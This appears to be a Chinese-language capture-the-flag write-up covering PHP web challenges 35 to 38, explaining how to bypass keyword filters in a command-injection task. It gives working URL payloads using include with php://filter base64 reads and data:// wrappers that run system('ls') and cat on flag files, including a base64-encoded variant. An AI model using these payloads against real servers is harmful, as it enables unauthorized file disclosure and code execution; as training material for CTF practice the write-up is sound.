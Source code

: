 ![image.png](https://img06.mifile.cn/v1/MI_542ED8B1722DC/4b769abb056f663005d751e70e64b756.png)

解题思路：代码审计，发现flag，system,php,sort,shell,echo,空格，反引号，都被pass了。

所以我们应该去找一个不带括号的命令执行函数，通过查询可以发现有以下不需要括号的函数，我们可以使用include，先给c传入1，再通过&给1赋值，进行绕过。

php://filter/read=convert.base64-encode/resource，该处用到了php伪协议filter：//访问文件这是一个中间件，在读入或写入数据的时候对数据进行处理后输出的一个过程。

这个东西可以获取指定文件的源码，当它与包含函数结合时会将其作为php文件执行。

而这时我们一般将其编码而阻止其作为php文件执行从而获得编码后的源码。

我们通过convert.base64-encode将源码进行base64编码，它就能输出编码后的源码了，而不是作为php文件被执行。

/?c=include%09$\_GET[1]?\>&1=php://filter/read=convert.base64-encode/resource=flag.php 
![image.png](https://img08.mifile.cn/v1/MI_542ED8B1722DC/e6bfd02189983f08138e3db2568a2a0e.png)

通过以上命令执行可以得到一个base64编码，通过解码即可得到flag。

![image.png](https://img07.mifile.cn/v1/MI_542ED8B1722DC/e61a2c08a9fcc7fb22e53cccbaad0422.png)

## Web36:

解题思路：同上，不过该题有点不同的是禁用了数字，这时我们可以用英文字母传参。

?c=include%09$\_GET[p]?\>&p=php://filter/read=convert.base64-encode/resource=flag.php

## Web37:

![image.png](https://img08.mifile.cn/v1/MI_542ED8B1722DC/957eae9ff7b9d82bf77f02070cf0bc56.png)

解题思路：该题和前面的不太一样，这里不需要进行传参，我们要使用php的另一个伪协议data://伪协议，/?c=data://text/plain,\<?Php echo `cat fl*`;?\>

![image.png](https://img03.mifile.cn/v1/MI_542ED8B1722DC/667edd2a7f05a666222b6e88ddf5bc48.png)

## Web38:

![image.png](https://img08.mifile.cn/v1/MI_542ED8B1722DC/440c3ba1a632ff302efb1cdc556964de.png)

解题思路：本题和上一题差不多，不过该题过滤了php，所以不能使用正常标签，而应该使用短标签，/?c=data://text/plain,\<?=system("ls");?\>查看目录，然后

/?c=data://text/plain,\<?=system("cat f???.???");?\>

②法/?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==

该base64解码为\<?php system('cat flag.php');?\>

![image.png](https://img03.mifile.cn/v1/MI_542ED8B1722DC/c4dbd2066d80be9472a074f05ff8914a.png)

## Web39:

![image.png](https://img06.mifile.cn/v1/MI_542ED8B1722DC/26a9d1c79207bc7a0c257832d3771189.png)

